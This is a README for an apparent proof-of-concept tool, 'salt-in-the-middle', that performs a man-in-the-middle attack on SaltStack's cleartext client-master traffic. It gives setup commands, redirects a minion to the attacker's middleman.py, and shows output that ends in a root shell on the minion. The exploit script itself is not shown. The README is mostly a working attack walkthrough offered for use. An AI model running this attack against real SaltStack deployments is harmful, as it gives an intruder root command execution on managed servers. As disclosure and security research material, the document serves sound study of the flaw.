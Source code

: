## Introduction

This is a proof of concept to demonstrate a MitM attack against Saltstack. It works
because we can tamper with the information sent between the client and the master as
it's sent in the clear.

## Prerequisites

These instructions are going to assume you already have a working salt-{master,minion}.
If you don't, you can set them up like this (on Ubuntu Precise):

```sh
sudo apt-get install python-software-properties
sudo add-apt-repository ppa:saltstack/salt
sudo apt-get update
sudo apt-get install salt-master salt-minion
sudo sed -i 's/#master: salt/master: 127.0.0.1/g' /etc/salt/minion
sudo restart salt-minion
sudo salt-key -A
```

Finally, you'll need to clone this repository somewhere.

```sh
git clone https://github.com/dzderic/salt-in-the-middle
```

## The attack

NB: I'm going to be running this attack against a master running on my local machine.
You'll probably want to insert the IP of your master instead of `127.0.0.1`.

This attack requires 2 things: a vulnerable minion and connectivity to the master the minion
is authenticated to. I'm going to assume you have both of these things.

If you're running all of this on one machine, you need to change the port `middleman.py`
listens on so it doesn't conflict with the real salt-master. By default, it runs on port
4507 (as opposed to the default 4506). You can point a minion to port 4506 like so:

```sh
sudo sed -i 's/#master_port: 4506/master_port: 4507/g' /etc/salt/minion
```

Once you've pointed the minion to the address `middleman.py` is listening on,
you're ready to run the exploit. You need to execute `middleman.py` in one window
and do a `sudo restart salt-minion` in another. Once you've done that, you should
get something like this:

```
$ ./middleman.py 
Initializing ZMQ
Authenticating with the minion
Waiting for an auth packet
Parsing the minion's public key
Getting the decryption of the token from the legitimate master
Generating an AES key
Sending the AES key to the minion
Authenticating with the minion to send pillar info
Waiting for an auth packet
Parsing the minion's public key
Getting the decryption of the token from the legitimate master
Generating an AES key
Sending the AES key to the minion
Getting pillar info from the minion
Waiting for a "minion_start" event
Minion ready to obey
#
```

Congratulations, you now have a root shell (or whatever user salt-minion is running as).

```
Minion ready to obey
# whoami
root
```
